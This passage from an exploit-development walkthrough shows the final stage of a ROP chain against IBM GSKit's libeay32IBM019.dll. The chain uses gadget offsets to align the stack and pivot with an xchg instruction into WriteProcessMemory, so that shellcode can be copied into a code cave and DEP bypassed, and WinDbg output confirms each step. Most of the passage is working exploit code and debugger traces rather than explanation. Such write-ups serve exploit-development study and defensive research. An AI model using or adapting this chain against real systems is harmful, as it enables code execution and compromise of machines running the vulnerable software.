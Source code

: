 ```shell
044e1fda c3 ret
0:085> dd eax-14 L7
1223e2ec 75f42890 04572c04 ffffffff 04572c04
1223e2fc 1223e41c 0000020c 045c401c
```

the ROP chain patched the `nSize` argument correctly! nice.

#### final alignments

we've correctly located the address for `WriteProcessMemory`, prepared the return address (the code cave), and staged all the arguments on the stack. all we need now is precise stack alignment for the `WriteProcessMemory` call. this means aligning `EAX` with the `WriteProcessMemory` address in the ROP skeleton in the stack, exchanging it with `ESP`, and returning into it. easy, right?

we know that `EAX` points `0x14` bytes ahead of `WriteProcessMemory` on the stack. we can fix this with previously used gadgets.

```python
rop += pack("<L", (dllBase + 0x117c))  # pop ecx ; ret
rop += pack("<L", (0xffffffec))        # -0x14 (distance to WPM setup)
rop += pack("<L", (dllBase + 0x1d0f0)) # add eax, ecx ; ret
rop += pack("<L", (dllBase + 0x5b415)) # xchg eax, esp ; ret
```

the value `-0x14` (`0xffffffec`) was popped into `ECX`, added it to `EAX` and then used a gadget with an `xchg` instruction to align `ESP` to the stack address stored in `EAX`. `xchg` provides a nice, clean stack pivot.

after execution, we should return into `WriteProcessMemory` with all the arguments set up correctly. 

```shell
0:080> bp libeay32IBM019+0x5b415
*** ERROR: Symbol file could not be found. Defaulted to export symbols for C:\Program
Files\ibm\gsk8\lib\N\icc\osslib\libeay32IBM019.dll -
0:080> g
Breakpoint 0 hit
eax=110ee2ec ebx=05fbf4d8 ecx=ffffffec edx=77251670 esi=42424242 edi=00669360
nv up ei pl nz na po cy
efl=00000203
eip=031bb415 esp=110ee3b0 ebp=41414141 iopl=0
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000
libeay32IBM019!N98E_a2i_ASN1_INTEGER+0x85:
031bb415 94 xchg eax,esp
0:085> p
eax=110ee3b0 ebx=05fbf4d8 ecx=ffffffec edx=77251670 esi=42424242 edi=00669360
nv up ei pl nz na po cy
efl=00000203
eip=031bb416 esp=110ee2ec ebp=41414141 iopl=0
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000
libeay32IBM019!N98E_a2i_ASN1_INTEGER+0x86:
031bb416 c3 ret
0:085> p
eax=110ee3b0 ebx=05fbf4d8 ecx=ffffffec edx=77251670 esi=42424242 edi=00669360
nv up ei pl nz na po cy
efl=00000203
eip=75f42890 esp=110ee2f0 ebp=41414141 iopl=0
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000
KERNEL32!WriteProcessMemoryStub:
75f42890 8bff mov edi,edi
0:085> dds esp L6
110ee2f0 0 3 1 f 2c 04 libeay32IBM019!N98E_bn_sub_words+0x107c
110ee2f4 ffffffff
110ee2f8 0 3 1 f 2c 04 libeay32IBM019!N98E_bn_sub_words+0x107c
110ee2fc 110ee41c
110ee300 0000020c
```
